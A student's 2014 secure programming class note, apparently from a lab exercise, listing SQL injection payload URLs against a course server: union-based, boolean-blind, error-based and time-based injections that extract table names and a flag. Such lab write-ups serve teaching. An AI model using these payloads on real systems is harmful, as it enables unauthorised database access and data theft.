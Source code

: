 ```yaml
---
title: Secure Programming 2014-12-09
category: note
slug: secure-programming-20141209
date: 2014-12-09
---
```

2014/12/09 Secure Programming Class Note

## SQLi1

-  need encode ' '

```text
http://tor.atdog.tw:8080/union/news.php?id=1
http://tor.atdog.tw:8080/union/news.php?id=1)union(select 1,(select flag from wtf_flags))%23
```

## SQLi2

``` text
http://tor.atdog.tw:8080/boolean/login.php?u=admin&p=admin
http://tor.atdog.tw:8080/boolean/login.php?u=admin&p=admin' and exists(select 1from information_schema.tables where ord(substr((select table_name from information_schema.tables limit 1), 1, 1))=67)%23
```

-  CSRF
-  XSS

## SQLi3

-  `ooooooooofl4gsss`

```text
http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select table_name from infoorrmation_schema.tables limit 41,1)s), 18446744073709551610, 18446744073709551610)) = 1
```

-  `flag`

```text
http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select column_name from infoorrmation_schema.columns limit 1,1)s), 18446744073709551610, 18446744073709551610)) = 1
```

-  `SecProg{why_my_pay1oad_is_s0_Complic4tEd}`

```text
http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select flag from ooooooooofl4gsss limit 1,1)s), 18446744073709551610, 18446744073709551610)) = 1
```

## SQLi4

```text
http://tor.atdog.tw:8080/time/track.php?action=1 and (sleep(ascii(substr((select table_name from information_schema.tables limit 41,1),4,1))%25100)) = 1
http://tor.atdog.tw:8080/time/track.php?action=1 and (select if(((select table_name from information_schema.tables limit 41,1)='what_flags'),sleep(10),0))=1
```
